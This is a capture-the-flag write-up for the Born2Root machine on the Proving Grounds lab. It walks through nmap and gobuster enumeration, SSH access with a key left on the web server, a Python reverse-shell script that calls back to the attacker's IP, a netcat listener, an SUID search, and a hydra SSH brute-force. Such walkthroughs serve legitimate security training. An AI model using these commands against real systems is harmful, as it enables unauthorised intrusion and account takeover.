 
---
layout: default
title: x002-Born2Root
nav_order: 2
has_children: false
parent: ProvingGrounds
grand_parent: Writeups
---

## x002-Born2Root
### Enumeration 

####  NMAP
```sh
nmap -A -T4 192.168.148.49 -p-
```

Which gives us : 
```sh
22/tcp    open     ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open     http    Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open     rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34581/tcp6  status
|   100024  1          40205/udp6  status
|   100024  1          41595/udp   status
|_  100024  1          46330/tcp   status
239/tcp   filtered unknown
28289/tcp filtered unknown
46330/tcp open     status  1 (RPC #100024)
59231/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Web 
##### Gobuster 
```sh
gobuster dir -u http://192.168.148.49/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Result : 
```sh
/icons                (Status: 301) [Size: 316] [--> http://192.168.148.49/icons/]
/files                (Status: 301) [Size: 316] [--> http://192.168.148.49/files/]
/manual               (Status: 301) [Size: 317] [--> http://192.168.148.49/manual/]
/server-status        (Status: 403) [Size: 302]    
```


### Access 
Inside the `/icons` folder we found a text file corresponding to a SSH Private Key.
Using the key and the user available on the home page we get access : 
![](attachments/Pasted%20image%2020220219195500.png)

### Privilege Escalation

Checking the crontab we notice the following : 
![](attachments/Pasted%20image%2020220219201218.png)

We could create our own python script to create a reverse shell to the Jimmy account : 
```python
#!/usr/bin/python
import socket,subprocess,os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.148",53))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

On our local machine we are waiting the connection : 
```sh
nc -lnvp 53
```

![](attachments/Pasted%20image%2020220219202048.png)

Search SUID  from user Jimmy : 
```
find / -perm -u=s -type f 2>/dev/null
```

![](attachments/Pasted%20image%2020220219204629.png)

It shows that the `networker` present in our home folder is in the list.

Analyzing it with the `strings` commands indicate the list of sub-command used : 
![](attachments/Pasted%20image%2020220219204903.png)

None of these command allow something based on the https://gtfobins.github.io/#+suid website. 

Our answer is not there.

####  Brute forcing the access 
From our previous enumeration to get the root access, we have detected that the only user on which we coudln't reach the account was Hadi. 

Based on that, we could try to brute force the access using a generated list from bopscrk : 
![](attachments/Pasted%20image%2020220220161012.png)

Then using hydra : 
```bash
hydra -l hadi -P tmp.txt 192.168.148.49 ssh
```

![](attachments/Pasted%20image%2020220220161046.png)

Login with the user and running su command : 

![](attachments/Pasted%20image%2020220220161214.png)

